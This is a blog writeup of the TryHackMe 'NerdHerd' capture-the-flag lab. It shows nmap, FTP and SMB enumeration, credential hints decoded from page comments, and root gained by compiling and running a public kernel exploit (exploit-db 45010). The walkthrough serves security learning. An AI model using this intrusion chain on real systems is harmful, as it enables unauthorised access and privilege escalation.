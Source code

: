 ```yaml
---
layout: default
title : NerdHerd - Writeup
---
```


# [Main](https://bvr0n.github.io/) &nbsp;&nbsp;   [Contact](https://bvr0n.github.io/contact.html) &nbsp;&nbsp; [About Me](./aboutme.md) <br>

_**Nov 06, 2020**_

[NerdHerd](https://tryhackme.com/room/nerdherd) Writeup

## Nmap Scan :
```
bvr0n@kali:~$ nmap -sC -sV 10.10.203.70
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Sep 11 03:45 pub
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.14.157
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0c:84:1b:36:b2:a2:e1:11:dd:6a:ef:42:7b:0d:bb:43 (RSA)
|   256 e2:5d:9e:e7:28:ea:d3:dd:d4:cc:20:86:a3:df:23:b8 (ECDSA)
|_  256 ec:be:23:7b:a9:4c:21:85:bc:a8:db:0e:7c:39:de:49 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
1337/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: Host: NERDHERD; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -36m51s, deviation: 1h09m15s, median: 3m07s
|_nbstat: NetBIOS name: NERDHERD, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: nerdherd
|   NetBIOS computer name: NERDHERD\x00
|   Domain name: \x00
|   FQDN: nerdherd
|_  System time: 2020-11-06T20:27:25+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-06T18:27:26
|_  start_date: N/A
```

## FTP :

login to FTP we get a directory `/pub`, Enumerate it to get some juicy stuff :
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ ncftp 10.10.203.70
ncftp /pub > ls -la
drwxr-xr-x    2 ftp      ftp          4096 Sep 14 18:35 .*****onyou
-rw-rw-r--    1 ftp      ftp         89894 Sep 11 03:45 youfoundme.png
ncftp /pub > cd .*****onyou   
ncftp /pub/.*****onyou > ls
hellon3rd.txt
```
After grabbing the image, i ran exiftoot on it and got this, This we'll use later :
```
Owner Name                      : fijbxslz
```

## Web Enum :

going to the web page and brute force directories we get a `/admin` that had something in the code source :

```
<!--
	these might help:
		Y2liYXJ0b3dza2k= : aGVoZWdvdTwdasddHlvdQ==
-->
```
When we decrypt it it gives :
```
Y2liYXJ0b3dza2k= : cibartowski
aGVoZWdvdTwdasddHlvdQ== : hehegou<.jÇ].[ÝD
```

## SMB :

```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ nbtscan 10.10.203.70

IP address       NetBIOS Name     Server    User             MAC address      
------------------------------------------------------------------------------
10.10.203.70     NERDHERD         <server>  NERDHERD         00:00:00:00:00:00
```

```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ smbclient --no-pass -L 10.10.203.70

Sharename       	        Type      Comment
---------       	        ----      -------
print$          	        Disk      Printer Drivers
********_********** 	    	Disk      Samba on Ubuntu
IPC$            	        IPC       IPC Service (nerdherd server (Samba, Ubuntu))
```
I tried accessing the `********_**********` but we need a valid user to login with, so i tried this :
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ enum4linux 10.10.203.70
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Fri Nov  6 14:06:12 2020

 ========================== 
|    Target Information    |
 ========================== 

Target ........... 10.10.203.70
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
 
============================= 
|    Users on 10.10.203.70    |
 ============================= 

index: 0x1 RID: 0x3e8 acb: 0x00000010 Account: *****    Name: ChuckBartowski    Desc: 

user:[chuck] rid:[0x3e8]
```

Looks like user `*****` have access to the shared folder, i tried accessing it with the creds i got earlier, but nothing!! so i asked the author!! this one `fijbxslz` was `Vigenere
Cipher` ! And the key to decrypt it is the youtube title we got earlier :
```
Key : ****istheword
Password : ****pass
```
```
bvr0n@kali:~/CTF/THM/NerdHerd_v2$ smbclient -U ***** //10.10.203.70/********_**********
Enter WORKGROUP\*****'s password: 
smb: \> dir
  secr3t.txt                          N      125  Thu Sep 10 21:29:53 2020
```
And we have access to the shared folder.

inside the file we get a directory and that leed us to ssh creds :))


## Internal Enum :

When i ran linpeas i noticed that this machine is running an outdated kernel :
```
chuck@nerdherd:~$ uname -a
Linux nerdherd 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

I searched for it and i found this [Exploit](https://www.exploit-db.com/exploits/45010)

I downloaded the exploit into my machine and transferred it to the victims machine :

```
*****@nerdherd:~$ gcc 45010.c -o exploit
*****@nerdherd:~$ chmod +x exploit 
*****@nerdherd:~$ ./exploit 
root@nerdherd:~# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare),1000(chuck)
```

And we got ROOOOT :)))

For the root flag i did someting like this :
```
root@nerdherd:/root# find / -user root -type f -iname "*.txt"
```
Accourding to the room hint, the bonus flag is 100% located in `.bash_history`.


<br>
best regards

[bvr0n](https://linkedin.com/in/taha-el-ghadraoui-5921771a5)


<br>
[back to main()](../../index.md)

<br>
